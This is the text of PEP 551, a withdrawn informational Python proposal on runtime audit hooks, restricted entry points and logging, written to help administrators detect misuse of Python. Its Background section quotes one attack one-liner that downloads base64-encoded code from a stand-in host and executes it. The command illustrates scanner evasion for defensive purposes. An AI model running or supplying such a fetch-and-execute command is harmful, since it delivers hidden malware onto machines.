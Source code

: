 PEP: 551
Title: Security transparency in the Python runtime
Version: $Revision$
Author: Steve Dower <steve.dower@python.org>
Status: Withdrawn
Type: Informational
Created: 23-Aug-2017
Python-Version: 3.7
Post-History: 24-Aug-2017, 28-Aug-2017

.. note::
   This PEP has been withdrawn. For information about integrated
   CPython into a secure environment, we recommend consulting your own
   security experts.

Relationship to PEP 578
=======================

This PEP has been split into two since its original posting.

See :pep:`578` for the
auditing APIs proposed for addition to the next version of Python.

This is now an informational PEP, providing guidance to those planning
to integrate Python into their secure or audited environments.

Abstract
========

This PEP describes the concept of security transparency and how it
applies to the Python runtime. Visibility into actions taken by the
runtime is invaluable in integrating Python into an otherwise secure
and/or monitored environment.

The audit hooks described in :pep:`578` are an essential component in
detecting, identifying and analyzing misuse of Python. While the hooks
themselves are neutral (in that not every reported event is inherently
misuse), they provide essential context to those who are responsible
for monitoring an overall system or network. With enough transparency,
attackers are no longer able to hide.

Background
==========

Software vulnerabilities are generally seen as bugs that enable remote
or elevated code execution. However, in our modern connected world, the
more dangerous vulnerabilities are those that enable advanced persistent
threats (APTs). APTs are achieved when an attacker is able to penetrate
a network, establish their software on one or more machines, and over
time extract data or intelligence. Some APTs may make themselves known
by maliciously damaging data (e.g., `WannaCrypt
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?Name=Ransom:Win32/WannaCrypt>`_)
or hardware (e.g., `Stuxnet
<https://www.microsoft.com/wdsi/threats/malware-encyclopedia-description?name=Win32/Stuxnet>`_).
Most attempt to hide their existence and avoid detection. APTs often use
a combination of traditional vulnerabilities, social engineering,
phishing (or spear-phishing), thorough network analysis, and an
understanding of misconfigured environments to establish themselves and
do their work.

The first infected machines may not be the final target and may not
require special privileges. For example, an APT that is established as a
non-administrative user on a developer’s machine may have the ability to
spread to production machines through normal deployment channels. It is
common for APTs to persist on as many machines as possible, with sheer
weight of presence making them difficult to remove completely.

Whether an attacker is seeking to cause direct harm or hide their
tracks, the biggest barrier to detection is a lack of insight. System
administrators with large networks rely on distributed logs to
understand what their machines are doing, but logs are often filtered to
show only error conditions. APTs that are attempting to avoid detection
will rarely generate errors or abnormal events. Reviewing normal
operation logs involves a significant amount of effort, though work is
underway by a number of companies to enable automatic anomaly detection
within operational logs. The tools preferred by attackers are ones that
are already installed on the target machines, since log messages from
these tools are often expected and ignored in normal use.

At this point, we are not going to spend further time discussing the
existence of APTs or methods and mitigations that do not apply to this
PEP. For further information about the field, we recommend reading or
watching the resources listed under `Further Reading`_.

Python is a particularly interesting tool for attackers due to its
prevalence on server and developer machines, its ability to execute
arbitrary code provided as data (as opposed to native binaries), and its
complete lack of internal auditing. This allows attackers to download,
decrypt, and execute malicious code with a single command::

    python -c "import urllib.request, base64;
        exec(base64.b64decode(
            urllib.request.urlopen('http://my-exploit/py.b64')
        ).decode())"

This command currently bypasses most anti-malware scanners that rely on
recognizable code being read through a network connection or being
written to disk (base64 is often sufficient to bypass these checks). It
also bypasses protections such as file access control lists or
permissions (no file access occurs), approved application lists
(assuming Python has been approved for other uses), and automated
auditing or logging (assuming Python is allowed to access the internet
or access another machine on the local network from which to obtain its
payload).

General consensus among the security community is that totally
preventing attacks is infeasible and defenders should assume that they
will often detect attacks only after they have succeeded. This is known
as the "assume breach" mindset. [1]_ In this scenario, protections such
as sandboxing and input validation have already failed, and the
important task is detection, tracking, and eventual removal of the
malicious code. To this end, the primary feature required from Python is
security transparency: the ability to see what operations the Python
runtime is performing that may indicate anomalous or malicious use.
Preventing such use is valuable, but secondary to the need to know that
it is occurring.

To summarise the goals in order of increasing importance:

* preventing malicious use is valuable
* detecting malicious use is important
* detecting attempts to bypass detection is critical

One example of a scripting engine that has addressed these challenges is
PowerShell, which has recently been enhanced towards similar goals of
transparency and prevention. [2]_

Generally, application and system configuration will determine which
events within a scripting engine are worth logging. However, given the
value of many logs events are not recognized until after an attack is
detected, it is important to capture as much as possible and filter
views rather than filtering at the source (see the No Easy Breach video
from `Further Reading`_). Events that are always of interest include
attempts to bypass auditing, attempts to load and execute code that is
not correctly signed or access-controlled, use of uncommon operating
system functionality such as debugging or inter-process inspection
tools, most network access and DNS resolution, and attempts to create
and hide files or configuration settings on the local machine.

To summarize, defenders have a need to audit specific uses of Python in
order to detect abnormal or malicious usage. With :pep:`578`, the Python
runtime gains the ability to provide this. The aim of this PEP is to
assist system administrators with deploying a security transparent
version of Python that can integrate with their existing auditing and
protection systems.

On Windows, some specific features that may be integrated through the
hooks added by :pep:`578` include:

* Script Block Logging [3]_
* DeviceGuard [4]_
* AMSI [5]_
* Persistent Zone Identifiers [6]_
* Event tracing (which includes event forwarding) [7]_

On Linux, some specific features that may be integrated are:

* gnupg [8]_
* sd_journal [9]_
* OpenBSM [10]_
* syslog [11]_
* auditd [12]_
* SELinux labels [13]_
* check execute bit on imported modules

On macOS, some features that may be integrated are:

* OpenBSM [10]_
* syslog [11]_

Overall, the ability to enable these platform-specific features on
production machines is highly appealing to system administrators and
will make Python a more trustworthy dependency for application
developers.

True security transparency is not fully achievable by Python in
isolation. The runtime can audit as many events as it likes, but unless
the logs are reviewed and analyzed there is no value. Python may impose
restrictions in the name of security, but usability may suffer.
Different platforms and environments will require different
implementations of certain security features, and organizations with the
resources to fully customize their runtime should be encouraged to do
so.

Summary Recommendations
=======================

These are discussed in greater detail in later sections, but are
presented here to frame the overall discussion.

Sysadmins should provide and use an alternate entry point (besides
``python.exe`` or ``pythonX.Y``) in order to reduce surface area and
securely enable audit hooks. A discussion of what could be restricted
is below in `Restricting the Entry Point`_.

Sysadmins should use all available measures provided by their operating
system to prevent modifications to their Python installation, such as
file permissions, access control lists and signature validation.

Sysadmins should log everything and collect logs to a central location
as quickly as possible - avoid keeping logs on outer-ring machines.

Sysadmins should prioritize _detection_ of misuse over _prevention_ of
misuse.


Restricting the Entry Point
===========================

One of the primary vulnerabilities exposed by the presence of Python
on a machine is the ability to execute arbitrary code without
detection or verification by the system. This is made significantly
easier because the default entry point (``python.exe`` on Windows and
``pythonX.Y`` on other platforms) allows execution from the command
line, from standard input, and does not have any hooks enabled by
default.

Our recommendation is that production machines should use a modified
entry point instead of the default. Once outside of the development
environment, there is rarely a need for the flexibility offered by the
default entry point.

In this section, we describe a hypothetical ``spython`` entry point
(``spython.exe`` on Windows; ``spythonX.Y`` on other platforms) that
provides a level of security transparency recommended for production
machines. An associated example implementation shows many of the
features described here, though with a number of concessions for the
sake of avoiding platform-specific code. A sufficient implementation
will inherently require some integration with platform-specific
security features.

Official distributions will not include any ``spython`` by default, but
third party distributions may include appropriately modified entry
points that use the same name.

**Remove most command-line arguments**

The ``spython`` entry point requires a script file be passed as the
first argument, and does not allow any options to precede it. This
prevents arbitrary code execution from in-memory data or non-script
files (such as pickles, which could be executed using
``-m pickle <path>``.

Options ``-B`` (do not write bytecode), ``-E`` (ignore environment
variables) and ``-s`` (no user site) are assumed.

If a file with the same full path as the process with a ``._pth`` suffix
(``spython._pth`` on Windows, ``spythonX.Y._pth`` on Linux) exists, it
will be used to initialize ``sys.path`` following the rules currently
described `for Windows
<https://docs.python.org/3/using/windows.html#finding-modules>`_.

For the sake of demonstration, the example implementation of
``spython`` also allows the ``-i`` option to start in interactive mode.
This is not recommended for restricted entry points.

**Log audited events**

Before initialization, ``spython`` sets an audit hook that writes all
audited events to an OS-managed log file. On Windows, this is the Event
Tracing functionality,[7]_ and on other platforms they go to
syslog.[11]_ Logs are copied from the machine as frequently as possible
to prevent loss of information should an attacker attempt to clear
local logs or prevent legitimate access to the machine.

The audit hook will also abort all ``sys.addaudithook`` events,
preventing any other hooks from being added.

The logging hook is written in native code and configured before the
interpreter is initialized. This is the only opportunity to ensure that
no Python code executes without auditing, and that Python code cannot
prevent registration of the hook.

Our primary aim is to record all actions taken by all Python processes,
so that detection may be performed offline against logged events.
Having all events recorded also allows for deeper analysis and the use
of machine learning algorithms. These are useful for detecting
persistent attacks, where the attacker is intending to remain within
the protected machines for some period of time, as well as for later
analysis to determine the impact and exposure caused by a successful
attack.

The example implementation of ``spython`` writes to a log file on the
local machine, for the sake of demonstration. When started with ``-i``,
the example implementation writes all audit events to standard error
instead of the log file. The ``SPYTHONLOG`` environment variable can be
used to specify the log file location.

**Restrict importable modules**

Also before initialization, ``spython`` sets an open-for-import hook
that validates all files opened with ``os.open_for_import``. This
implementation requires all files to have a ``.py`` suffix (preventing
the use of cached bytecode), and will raise a custom audit event
``spython.open_for_import`` containing ``(filename, True_if_allowed)``.

After opening the file, the entire contents is read into memory in a
single buffer and the file is closed.

Compilation will later trigger a ``compile`` event, so there is no need
to validate the contents now using mechanisms that also apply to
dynamically generated code. However, if a whitelist of source files or
file hashes is available, then other validation mechanisms such as
DeviceGuard [4]_ should be performed here.



**Restrict globals in pickles**

The ``spython`` entry point will abort all ``pickle.find_class`` events
that use the default implementation. Overrides will not raise audit
events unless explicitly added, and so they will continue to be allowed.

**Prevent os.system**

The ``spython`` entry point aborts all ``os.system`` calls.

It should be noted here that ``subprocess.Popen(shell=True)`` is
allowed (though logged via the platform-specific process creation
events). This tradeoff is made because it is much simpler to induce a
running application to call ``os.system`` with a single string argument
than a function with multiple arguments, and so it is more likely to be
used as part of an exploit. There is also little justification for
using ``os.system`` in production code, while ``subprocess.Popen`` has
a large number of legitimate uses. Though logs indicating the use of
the ``shell=True`` argument should be more carefully scrutinised.

Sysadmins are encouraged to make these kinds of tradeoffs between
restriction and detection, and generally should prefer detection.

General Recommendations
=======================

Recommendations beyond those suggested in the previous section are
difficult, as the ideal configuration for any environment depends on
the sysadmin's ability to manage, monitor, and respond to activity on
their own network. Nonetheless, here we attempt to provide some context
and guidance for integrating Python into a complete system.

This section provides recommendations using the terms **should** (or
**should not**), indicating that we consider it risky to ignore the
advice, and **may**, indicating that for the advice ought to be
considered for high value systems. The term **sysadmin** refers to
whoever is responsible for deploying Python throughout the network;
different organizations may have an alternative title for the
responsible people.

Sysadmins **should** build their own entry point, likely starting from
the ``spython`` source, and directly interface with the security systems
available in their environment. The more tightly integrated, the less
likely a vulnerability will be found allowing an attacker to bypass
those systems. In particular, the entry point **should not** obtain any
settings from the current environment, such as environment variables,
unless those settings are otherwise protected from modification.

Audit messages **should not** be written to a local file. The
``spython`` entry point does this for example and testing purposes. On
production machines, tools such as ETW [7]_ or auditd [12]_ that are
intended for this purpose should be used.

The default ``python`` entry point **should not** be deployed to
production machines, but could be given to developers to use and test
Python on non-production machines. Sysadmins **may** consider deploying
a less restrictive version of their entry point to developer machines,
since any system connected to your network is a potential target.
Sysadmins **may** deploy their own entry point as ``python`` to obscure
the fact that extra auditing is being included.

Python deployments **should** be made read-only using any available
platform functionality after deployment and during use.

On platforms that support it, sysadmins **should** include signatures
for every file in a Python deployment, ideally verified using a private
certificate. For example, Windows supports embedding signatures in
executable files and using catalogs for others, and can use DeviceGuard
[4]_ to validate signatures either automatically or using an
``open_for_import`` hook.

Sysadmins **should** log as many audited events as possible, and
**should** copy logs off of local machines frequently. Even if logs are
not being constantly monitored for suspicious activity, once an attack
is detected it is too late to enable auditing. Audit hooks **should
not** attempt to preemptively filter events, as even benign events are
useful when analyzing the progress of an attack. (Watch the "No Easy
Breach" video under `Further Reading`_ for a deeper look at this side of
things.)

Most actions **should not** be aborted if they could ever occur during
normal use or if preventing them will encourage attackers to work around
them. As described earlier, awareness is a higher priority than
prevention. Sysadmins **may** audit their Python code and abort
operations that are known to never be used deliberately.

Audit hooks **should** write events to logs before attempting to abort.
As discussed earlier, it is more important to record malicious actions
than to prevent them.

Sysadmins **should** identify correlations between events, as a change
to correlated events may indicate misuse. For example, module imports
will typically trigger the ``import`` auditing event, followed by an
``open_for_import`` call and usually a ``compile`` event. Attempts to
bypass auditing will often suppress some but not all of these events. So
if the log contains ``import`` events but not ``compile`` events,
investigation may be necessary.

The first audit hook **should** be set in C code before
``Py_Initialize`` is called, and that hook **should** unconditionally
abort the ``sys.addloghook`` event. The Python interface is primarily
intended for testing and development.

To prevent audit hooks being added on non-production machines, an entry
point **may** add an audit hook that aborts the ``sys.addloghook`` event
but otherwise does nothing.

On production machines, a non-validating ``open_for_import`` hook
**may** be set in C code before ``Py_Initialize`` is called. This
prevents later code from overriding the hook, however, logging the
``setopenforexecutehandler`` event is useful since no code should ever
need to call it. Using at least the sample ``open_for_import`` hook
implementation from ``spython`` is recommended.

Since ``importlib``'s use of ``open_for_import`` may be easily bypassed
with monkeypatching, an audit hook **should** be used to detect
attribute changes on type objects.

Things not to do
================

This section discusses common or "obviously good" recommendations that
we are specifically *not* making. These range from useless or incorrect
through to ideas that are simply not feasible in any real world
environment.

**Do not** attempt to implement a sandbox within the Python runtime.
There is a long history of attempts to allow arbitrary code limited use
of Python features (such as [14]_), but no general success. The best
options are to run unrestricted Python within a sandboxed environment
with at least hypervisor-level isolation, or to prevent unauthorised
code from starting at all.

**Do not** rely on static analysis to verify untrusted code before use.
The best options are to pre-authorise trusted code, such as with code
signing, and if not possible to identify known-bad code, such as with
an anti-malware scanner.

**Do not** use audit hooks to abort operations without logging the
event first. You will regret not knowing why your process disappeared.

[TODO - more bad advice]

Further Reading
===============


**Redefining Malware: When Old Terms Pose New Threats**
    By Aviv Raff for SecurityWeek, 29th January 2014

    This article, and those linked by it, are high-level summaries of the rise of
    APTs and the differences from "traditional" malware.

    `<http://www.securityweek.com/redefining-malware-when-old-terms-pose-new-threats>`_

**Anatomy of a Cyber Attack**
    By FireEye, accessed 23rd August 2017

    A summary of the techniques used by APTs, and links to a number of relevant
    whitepapers.

    `<https://www.fireeye.com/current-threats/anatomy-of-a-cyber-attack.html>`_

**Automated Traffic Log Analysis: A Must Have for Advanced Threat Protection**
    By Aviv Raff for SecurityWeek, 8th May 2014

    High-level summary of the value of detailed logging and automatic analysis.

    `<http://www.securityweek.com/automated-traffic-log-analysis-must-have-advanced-threat-protection>`_

**No Easy Breach: Challenges and Lessons Learned from an Epic Investigation**
    Video presented by Matt Dunwoody and Nick Carr for Mandiant at SchmooCon 2016

    Detailed walkthrough of the processes and tools used in detecting and removing
    an APT.

    `<https://archive.org/details/No_Easy_Breach>`_

**Disrupting Nation State Hackers**
    Video presented by Rob Joyce for the NSA at USENIX Enigma 2016

    Good security practices, capabilities and recommendations from the chief of
    NSA's Tailored Access Operation.

    `<https://www.youtube.com/watch?v=bDJb8WOJYdA>`_

References
==========

.. [1] Assume Breach Mindset, `<http://asian-power.com/node/11144>`_

.. [2] PowerShell Loves the Blue Team, also known as Scripting Security and
   Protection Advances in Windows 10, `<https://blogs.msdn.microsoft.com/powershell/2015/06/09/powershell-the-blue-team/>`_

.. [3] `<https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html>`_

.. [4] `<https://aka.ms/deviceguard>`_

.. [5] Antimalware Scan Interface, `<https://msdn.microsoft.com/en-us/library/windows/desktop/dn889587(v=vs.85).aspx>`_

.. [6] Persistent Zone Identifiers, `<https://msdn.microsoft.com/en-us/library/ms537021(v=vs.85).aspx>`_

.. [7] Event tracing, `<https://msdn.microsoft.com/en-us/library/aa363668(v=vs.85).aspx>`_

.. [8] `<https://www.gnupg.org/>`_

.. [9] `<https://www.systutorials.com/docs/linux/man/3-sd_journal_send/>`_

.. [10] `<http://www.trustedbsd.org/openbsm.html>`_

.. [11] `<https://linux.die.net/man/3/syslog>`_

.. [12] `<http://security.blogoverflow.com/2013/01/a-brief-introduction-to-auditd/>`_

.. [13] SELinux access decisions `<http://man7.org/linux/man-pages/man3/avc_entry_ref_init.3.html>`_

.. [14] The failure of pysandbox `<https://lwn.net/Articles/574215/>`_

Acknowledgments
===============

Thanks to all the people from Microsoft involved in helping make the
Python runtime safer for production use, and especially to James Powell
for doing much of the initial research, analysis and implementation, Lee
Holmes for invaluable insights into the info-sec field and PowerShell's
responses, and Brett Cannon for the restraining and grounding
discussions.

Copyright
=========

Copyright (c) 2017-2018 by Microsoft Corporation. This material may be
distributed only subject to the terms and conditions set forth in the
Open Publication License, v1.0 or later (the latest version is presently
available at http://www.opencontent.org/openpub/).
